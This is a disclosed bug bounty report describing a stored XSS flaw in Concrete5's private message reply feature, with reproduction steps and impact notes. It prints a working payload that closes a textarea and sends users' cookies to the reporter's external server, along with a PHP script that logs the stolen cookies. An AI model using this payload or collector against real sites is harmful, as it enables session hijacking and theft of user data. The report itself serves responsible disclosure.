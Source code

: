 # Stored XSS in Private Messages 'Reply' allows to execute malicious JavaScript against any user while replying to the message which contains payload

## Report Details
- **Report ID**: 247517
- **URL**: https://hackerone.com/reports/247517
- **State**: Closed
- **Severity**: high
- **Submitted**: 2017-07-09T21:57:07.812Z
- **Disclosed**: 2017-08-17T22:12:55.495Z

## Reporter
- **Username**: bl4de
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: concretecms

## Vulnerability Information
## Intro

"Back to the Crayons"

__Type of issue__: Core CMS issue
__Level of severity__: External Attack Vector
__Concrete5 version__: 8.2.0 RC2 rev. 32c9daf352645d4fafedb7b956e7f2de4e153ab3 (July 8th)

## Summary

There is __Stored XSS__ vulnerability in Private Messages 'Reply' feature, when original message is quoted in reply content (this is by default). This issue can be used against any user, who accepted receiving private messages and replies to the message contains malicious payload.

To exploit this vulnerability an attacker has to trick other user to reply to his message.

## Steps to reproduce

- log in to concrete5 instance as any user
- go to ```index.php/account/messages```. Change url to ```index.php/account/messages/write/1``` which is equivalent to sending PM to __admin__ (changing user id in url to any other value allows to send message to selected user)
- set message title, then as a content of message put (at the end): closing ```</textarea>``` tag followed by any valid JavaScript code inside ```<script>``` tag. 

{F201511}

I used following payload in my attack:

```html
</textarea>
<script>
    var i = document.createElement('img')
    i.src = 'https://bl4de.000webhostapp.com/?c=' + document.cookie;
    document.body.append(i);
</script>
```

It creates and appends ```img``` element with url which points to my server on 000web hosting and allows to send cookie(s) to my PHP script:

```php
Hello :)
<?php
if (isset($_GET['c'])) {
	file_put_contents("cookies.txt", $_GET['c']);
}
```


- send message



To verify that vulnerability exists, log in as __admin__ (or any user you've sent message to) and go to Private Messages Inbox:

{F201512}

- open message

The content is properly sanitized (no JavaScript executed):


{F201514}



Now the fun part begins.

Select __Reply__ from the dropdown with message menu. As you can see, content of the original message is embeded below ```------- Original Message -------``` separator, however - is __not sanitized__, causes JavaScript script is executed __in context of logged admin__ (my sample attack scenario tries to steal cookie to hijack admin session and failed due to ```Http Only``` flag set, but it does not change the fact that Stored XSS attack works):

{F201513}

When we inspect HTML source, we can verify that closing ```</textarea>``` tag from payload allows to "escape" from message textarea and append and run JavaScript:

```html
<div class="form-group">
				<label for="body" class="control-label">Message</label>				<textarea id="msgBody" name="msgBody" rows="8" class="span5 form-control">


-------------------- Original Message --------------------
From: kotek
Date Sent: Jul 9, 2017, 9:55 PM
Subject: Problem with page!!!

Hi, could you please take a look at this and reply? Thanks!

</textarea>
<script>
        var i = document.createElement('img')
        i.src = 'https://bl4de.000webhostapp.com/?c=' + document.cookie;
        document.body.append(i);
    </script></textarea>			</div>

			<div class="ccm-dashboard-form-actions-wrapper">
			    <div class="ccm-dashboard-form-actions">
```


In presented PoC, one cookie was sent and saved on my 000web application:

{F201515}


## Impact

Any user is able to send PM to other user(s) with malicious payload trying to trick them to reply to his message. This scenario is described as __External Attack Vector__ in Concrete5 program policy.


## Testing environment

System:

- Concrete5 version 8.2.0 RC2, commit 32c9daf352645d4fafedb7b956e7f2de4e153ab3 from July  8th, installed localy
- PHP ver. 5.6.30
- Apache HTTP Server 2.4.25 for macOS
- MySQL ver. 5.7.13 for macOS

This vulnerability was tested on macOS Sierra 10.12.5 with following browsers:

- Chrome 59.0.3071.115
- Chromium build 61.0.3131.0
- Opera 46.0.2597.32


## Wrap up

I hope my report will help keep Concrete5 safe in the future.

Best Regards,

Rafal 'bl4de' Janicki

## Attachments
- pm_stroedxss_1.png
- pm_stroedxss_2.png
- pm_stroedxss_4.png
- pm_stroedxss_3.png
- pm_stroedxss_5.png
